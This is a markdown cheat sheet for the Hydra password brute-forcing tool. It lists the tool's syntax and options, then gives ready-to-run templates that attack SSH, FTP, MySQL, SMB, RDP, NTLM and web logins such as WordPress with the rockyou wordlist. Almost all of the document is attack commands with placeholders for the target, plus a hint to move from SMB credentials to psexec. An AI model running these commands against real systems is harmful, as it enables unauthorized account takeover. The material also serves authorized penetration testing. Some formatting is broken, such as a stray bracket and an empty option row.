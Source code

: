 # hydra
```bash
hydra  
[[[-l LOGIN|-L FILE] [-p PASS|-P FILE|-x OPT -y]] | [-C FILE]]  
[-e nsr] [-u] [-f|-F] [-M FILE] [-o FILE] [-b FORMAT]  
[-t TASKS] [-T TASKS] [-w TIME] [-W TIME] [-m OPTIONS] [-s PORT]  
[-c TIME] [-S] [-O] [-4|6] [-I] [-vV] [-d]  
target service [OPTIONS]
```
**target**- a target to attack, can be an IPv4 address, IPv6 address or DNS name.  
**service**- a service to attack, see the list of protocols available


https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/

|                          |                                                                                                                                                                                                  |
| ------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `-l LOGIN` <br>`-L FILE` | login with LOGIN name <br> load several logins from FILE                                                                                                                                          |
| `-p PASS` <br>`-P FILE`  | try password PASS, <br>load several passwords from FILE                                                                                                                                           |
| `-C FILE`                | colon separated "login:pass" format, instead of -L/-P options                                                                                                                                    |
| `-v / -V`                | verbose mode / show login+pass combination for each attempt                                                                                                                                      |
| `-I`                     | ignore an existing restore file (don't wait 10 seconds)                                                                                                                                          |
| `-R`                     | restore a previously aborted session. Requires a hydra.restore file was written. Options are restored, but can be changed by setting them after -R on the command line                           |
|`-s`|| 
| `-u`                     | by default Hydra checks all passwords for one login and then tries the next login. This option loops around the passwords, so the first password is tried on all logins, then the next password. |
| `-f`                     | exit after the first found login/password pair (per host if -M)                                                                                                                                  |
| `-F`                     | exit after the first found login/password pair for any host (for usage with -M)                                                                                                                  |
| `-M FILE`                | list of servers to attack, one entry per line, ':' to specify port                                                                                                                               |
| `-t TASKS`               | run TASKS number of connects in parallel per target (default: 16)                                                                                                                                |
| `-U`                     | service module usage details                                                                                                                                                                     |
| `-m OPT`                 | options specific for a module, see -U output for information                                                                                                                                     |
| `-h`                     | more command line options (COMPLETE HELP)                                                                                                                                                        |
| `server`                 | the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)                                                                                                                                    |
| `service`                | the service to crack (see below for supported protocols)                                                                                                                                         |
| `OPT`                    | some service modules support additional input (-U for module help)                                                                                                                               |
# Basic Usage
## NTLM auth
```bash
$ hydra -L <username_list> -p <pwd_to_spray> <host> http-get '/:A=NTLM:F=401'
```
## SSH
```bash
hydra -f -l <user> -P /usr/share/wordlists/rockyou.txt <IP> -t 4 ssh
```
## HTTP Post Form 
```bash
hydra -l <user> -P /usr/share/wordlists/rockyou.txt $target http-post-form "<Login Page>:<Request Body>:[F=<ErrorMessage> lub S=<SuccesMessage>]"
```
## Http-get (WebDAV)
```bash
$ hydra -L ... -P ... <IP> http-get /web-dav/
**[**```
## Wordpress 
```bash
hydra -f -l <user> -P /usr/share/wordlists/rockyou.txt <IP> -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```
## MySQL 
```bash
hydra -f -l <user> -P /usr/share/wordlists/rockyou.txt mysql:<IP> 
```
## FTP 
```bash
hydra -f -l <user> -P /usr/share/wordlists/rockyou.txt ftp:<IP> 
```
## SMB 
```bash
$ hydra -f -l <user> -P /usr/share/wordlists/rockyou.txt smb://<IP> # smb bruteforce user >> psexec
```
## Windows RDP 
```bash
hydra -f -l <user> -P /usr/share/wordlists/rockyou.txt rdp://<IP>
```
